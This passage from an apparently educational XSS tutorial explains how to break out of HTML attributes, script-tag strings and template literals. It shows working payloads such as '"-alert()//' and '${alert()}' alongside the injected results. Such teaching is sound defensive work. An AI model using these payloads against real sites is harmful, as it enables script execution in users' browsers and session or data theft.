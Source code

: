 <pre class="language-html"><code class="lang-html">&#x3C;input value="INJECTION_HERE">
<strong>Payload: " onfocus=alert() autofocus x="
</strong>&#x3C;input value="" onfocus=alert() autofocus x="">
</code></pre>

### Script Injection

A special case is when the injection is found inside of a `<script>` tag. This may be done by developers when they want to give JavaScript access to some data, often JSON or a string, without requiring another request to fetch that data. When implemented without enough sanitization, however, this can be very dangerous as _tags_ might not even be needed to reach XSS.

```html
<script>
    let a = "INJECTION_HERE";
</script>
```

As always, a possibility is simply closing the context and starting an [#html-injection](cross-site-scripting-xss.md#html-injection "mention"):

<pre class="language-html"><code class="lang-html"><strong>Payload: &#x3C;/script>&#x3C;style onload=alert()>
</strong>&#x3C;script>
    let a = "&#x3C;/script>&#x3C;style onload=alert()>";
&#x3C;/script>
</code></pre>

If these `<` or `>` characters are blocked or encoded however, we need to be more clever. Similarly to [#attribute-injection](cross-site-scripting-xss.md#attribute-injection "mention"), we can close only this **string**, and then write out arbitrary JavaScript code because are already in a `<script>` block. Using the `-` subtract symbol, JavaScript needs to evaluate both sides of the expression, and after seeing the empty `""` string, it will run the `alert()` function. Finally, we need to end with a comment to prevent `SyntaxError`s:

<pre class="language-html"><code class="lang-html"><strong>Payload: "-alert()//
</strong>&#x3C;script>
    let a = ""-alert()//"";
&#x3C;/script>
</code></pre>

Another special place you might find yourself injecting into is **template literals**, surrounded by `` ` `` backticks, which allow variables and expressions to be evaluated inside of the string. This opens up more possible syntax to run arbitrary JavaScript without even having to escape the string:

<pre class="language-html"><code class="lang-html"><strong>Payload: ${alert()}
</strong>&#x3C;script>
    let a = `${alert()}`;
&#x3C;/script>
</code></pre>

#### Double Injection `\` backslash trick

One last trick is useful when you **cannot escape** the string with just a `"` quote, but when you do have **two injections on the same line**.&#x20;
